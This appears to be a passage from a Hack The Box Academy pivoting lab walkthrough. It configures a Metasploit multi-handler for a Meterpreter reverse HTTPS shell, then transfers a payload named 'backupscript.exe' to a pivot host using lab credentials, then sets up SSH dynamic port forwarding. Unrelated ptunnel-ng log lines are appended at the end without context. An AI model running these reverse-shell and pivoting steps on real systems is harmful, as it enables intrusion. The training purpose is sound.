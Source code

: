 Then, students need to configure and start a `msfconsole` multi-handler, after setting the payload to be identical to the one used in the `msfvenom` payload, along with `LHOST` and `LPORT` options:

Code: shell

```shell
sudo msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 8000
run
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo msfconsole -q

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 8000
LPORT => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

From `Pwnbox`/`PMVPN`, students need to transfer the `msfvenom` payload to the pivot (Ubuntu server) host, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
scp backupscript.exe ubuntu@STMIP:~/
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ scp backupscript.exe ubuntu@10.129.228.103:~/

ubuntu@10.129.228.103's password: 
backupscript.exe                              100% 7168    77.3KB/s   00:00
```

Subsequently, from Pwnbox/`PMVPN`, students need to use SSH to connect to the pivot host (Ubuntu server) using dynamic port forwarding, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh -D 9050 ubuntu@STMIP
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh -D 9050 ubuntu@10.129.228.103

ubuntu@10.129.228.103's password: 

Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$ ls
backupscript.exe
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.